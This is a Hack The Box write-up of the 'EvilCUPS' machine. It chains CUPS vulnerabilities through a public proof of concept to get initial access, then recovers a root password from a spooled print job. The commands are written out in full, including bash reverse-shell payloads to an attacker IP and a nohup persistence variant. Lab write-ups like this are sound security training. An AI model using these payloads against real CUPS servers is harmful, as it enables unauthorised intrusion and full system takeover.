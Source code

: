 HTB: EvilCUPS — Full Writeup (Hard)
🧠 Summary

This machine revolves around the recently disclosed EvilCUPS vulnerabilities, affecting CUPS v2.4.2 and its components. Gaining a shell and privilege escalation required chaining several CVEs and extracting sensitive data from an existing print job.
Root Path:

    ✅ Reverse shell via CVE-2024-47175, CVE-2024-47176, CVE-2024-47076, and CVE-2024-47177

    🔑 Found a print job already on the system → Extracted root password from it

🔍 Reconnaissance

Ran a standard Nmap scan:

nmap -sC -sV -Pn <TARGET-IP>

Open ports:

    22 (SSH)

    631 (IPP - Internet Printing Protocol)

The HTTP title revealed a CUPS web interface, confirming the box is vulnerable to the EvilCUPS attack chain.
🌐 Web Interface Exploration

Visited http://<TARGET-IP>:631
Navigated to the “Printers” tab and spotted an existing printer job. This job becomes critical during privilege escalation.
⚔️ Initial Access via EvilCUPS Exploit Chain

Used the public PoC from IppSec's EvilCUPS repo, which chains multiple CUPS vulnerabilities to execute arbitrary commands via a spoofed IPP printer.

Setup:

    Cloned the repo & installed dependencies:

git clone https://github.com/IppSec/evil-cups
cd evil-cups
pip install -r requirements.txt

Executed the script with:

    python3 evilcups.py -a <ATTACKER-IP> -t <TARGET-IP> -c 'bash -i >& /dev/tcp/<ATTACKER-IP>/4444 0>&1'

After 60 seconds, a reverse shell was triggered by simulating a fake printer and forcing the target to connect back.

To execute the payload, clicked on “Print Test Page” in the web interface — triggering the malicious job and receiving a shell as a limited user.
🐚 Persistence Tip

Initial reverse shell kept dying — it was tied to the printing process lifecycle.

💡 Fixed by updating the payload to use:

nohup bash -i >& /dev/tcp/<ATTACKER-IP>/4444 0>&1 &

This detached the shell from the parent process, giving a stable session.
🗂️ Privilege Escalation via Print Job Leak

The vulnerable user had --x (execute-only) access on /var/spool/cups — couldn’t read directory contents directly, but could access files by name.

🧠 Trick: You need to know the print job filename beforehand.

From the CUPS web UI, identified job #1:

→ File inferred: d00001-001

    d prefix = print data file

    00001 = job ID

    001 = job instance

Used scp or nc to download d00001-001 to attacker box.

Then converted it:

cupsfilter -m application/pdf d00001-001 > rootjob.pdf

Opened the PDF → it contained the root password.
🔓 Final Step

SSH’ed into the target with:

ssh root@<TARGET-IP>
Password: <from print job>

🚩 Grabbed both user.txt and root.txt.
